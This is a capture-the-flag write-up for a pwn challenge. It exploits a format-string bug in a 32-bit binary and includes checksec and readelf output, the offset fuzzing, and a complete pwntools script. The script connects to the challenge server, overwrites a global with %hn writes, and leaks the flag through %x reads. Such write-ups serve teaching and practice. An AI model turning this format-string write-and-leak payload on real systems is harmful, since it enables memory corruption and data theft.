 ## Security Code [445 pts]

**Category:** Pwn
**Solves:** 36

### Description
>Can you print the flag?

## Solution

In this challenge we are provided an 32bit ELF binary which is vulnerable to format string.
First I checked `checksec` command on this file:

```bash
$ checksec --file=securitycode 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   83) Symbols	  No	0
```

As we can se PIE is not enabled and checking these details we can use typical format string techniques to exploit this bug.
Decompiling this binary with IDA results us with following images:


![main](images/1.jpg)
![hello_admin](images/2.jpg)
![auth_admin](images/3.jpg)

As we can see in the images we should change value in `security_code` using format strings to pass the condition,
And get to the `auth_admin` which will lead us to flag.

Our next step is to find reference location of `security_code`. using `readelf`:

```bash
$ readelf -a securitycode | grep security_code
    66: 0804c03c     4 OBJECT  GLOBAL DEFAULT   26 security_code
```

The procedure to exploit is as follow:

- First send A value to program, so it will redirect us into `hello_admin`

- Next We should write value in location of `security_code` to make condition pass. 
New value should be `0xABADCAFE`

- After that we will be leaded to `auth_admin`, But by default it will not show us flag.
Again we should do another `format string` exploit and try to read of memory value of flag.

- There is a limitation on reading value in this step, so we should read 6 string of flag at a time, 
and provide an offset on location we are reading in next hit.

To find offset of where is the `security_code` location from stack, I just fuzzed with giving below input format 
and findout that it is location at position 15. So we should point to location of it using format string
`%15$n`

```bash
AAAA%15$p
Hello our dear admin, AAAA0x41414141
```
As u can see the value `AAAA` that we provided, is overwriten in location offset `%15$n`.
This is our start point.

### I tried to put more comments on exploit code below, But will try to make this writeup with more details later.

The final exploit code to receive the flag:

```python
from pwn import *

flag = ''

# We will hit program for 30 iterations (just a number to get all available characters in flag)
# And in each try will change offset of getting flag value.
for i in range(30):

	# First we will connect to program using pwntools methods.
    # r = process("./securitycode")
    r = remote('185.97.118.167', 7040)

    # First Send A to be forwarded to hello_admin
    r.recvuntil("Enter 'A' for admin and 'U' for user.")
    r.sendline('A')

    # Value to overwrite is: xABADCAFE
    # ABAD: 43949
    # CAFE: 51966
    # So we need to first write this value in location of security_code address,
    # But cause it's more than two bytes, we will try to write two times in our format string payload.
    # cause CAFE is of a higher value we should first write it in location 15 from stack
    r.recvuntil('Enter you name:')
    payload = '\x3e\xc0\x04\x08\x3c\xc0\x04\x08%43941x%15$hn%8017x%16$hn'
    r.sendline(payload)

    # Now try to read of the flag step by step
    r.recvuntil('Enter your password:')
    payload = '%{}$x'.format(i)
    r.sendline(payload)

    x = r.recvline()
    x += r.recvline()
    x += r.recvline()
    x = x.replace('The password is ', '').strip()
    # it's just a method i used, it's not very clean, but got me the flag :)!
    try:
        flag += bytearray.fromhex(x).decode()[::-1]
    except:
        pass

print(flag)
```

